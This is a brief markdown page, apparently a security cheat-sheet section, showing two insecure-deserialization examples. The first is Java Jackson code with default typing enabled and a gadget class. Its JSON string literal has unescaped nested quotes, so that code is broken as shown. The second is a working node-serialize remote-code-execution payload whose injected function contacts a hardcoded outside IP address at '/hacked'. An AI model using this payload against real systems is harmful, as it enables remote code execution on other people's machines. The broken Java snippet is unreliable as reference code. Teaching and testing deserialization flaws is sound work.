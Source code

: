 ## Insecure Deserialization

Insecure Jackson deserialization example: 

```java
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
String json = "["com.sun.org.apache.xml.internal.utils.SerializableLocatorImpl", {}]"; 
try { 
    mapper.readValue(json, Object.class);
} catch (IOException e) { 
    e.printStackTrace(); 
}
```

Insecure node deserialization example: 

```javascript
#!/usr/bin/node 

var serialize = require('node-serialize'); 
var x = '{"rce":"_$$ND_FUNC$$_function (){var http = require(\'http\'); http.get(\'http://18.185.172.127:42024/hacked\')}()"}'
serialize.unserialize(x);
```
